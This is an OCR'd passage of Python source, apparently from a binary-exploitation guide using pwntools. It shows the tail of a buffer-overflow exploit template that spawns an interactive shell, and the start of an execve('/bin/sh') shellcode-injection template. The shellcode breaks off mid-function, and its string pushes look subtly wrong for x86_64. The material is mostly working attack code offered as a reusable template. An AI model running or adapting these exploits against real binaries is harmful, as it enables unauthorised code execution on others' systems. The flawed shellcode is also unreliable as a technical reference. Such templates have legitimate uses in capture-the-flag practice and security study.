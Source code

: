 ```python
        log.info(f"Response: {response}")
        
        # If we got a shell, interact
        if b"$" in response or b"#" in response:
            log.success("Got shell!")
            p.interactive()
        else:
            log.info("Exploit completed, no shell detected")
            
    except:
        log.info("No response received")
    
    p.close()

# Example usage template
if __name__ == "__main__":
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} <binary_path>")
        sys.exit(1)
    
    binary_path = sys.argv[1]
    
    # Step 1: Analyze binary
    functions = analyze_binary(binary_path)
    
    if not functions:
        log.error("No interesting functions found!")
        sys.exit(1)
    
    # Step 2: Configure exploit (these need to be found through analysis)
    offset = 40  # TODO: Find through pattern analysis
    target_function = functions[0][1]  # Use first interesting function
    
    # Step 3: Execute exploit
    exploit(binary_path, offset, target_function)
```

### Shellcode Injection (Advanced)

```python
# File: shellcode_template.py
#!/usr/bin/env python3

"""
Shellcode Injection Template
For when you need to execute custom code
"""

from pwn import *

def create_shellcode():
    """Create simple execve('/bin/sh') shellcode"""
    # This is x86_64 shellcode for execve('/bin/sh')
    shellcode = asm("""
        /* execve('/bin/sh', NULL, NULL) */
        xor rdi, rdi
        mul rdi
        push rdx
        push 0x68732f2f
        push 0x6e69622f
        mov rdi, rsp
        push rdx
        push rdi
```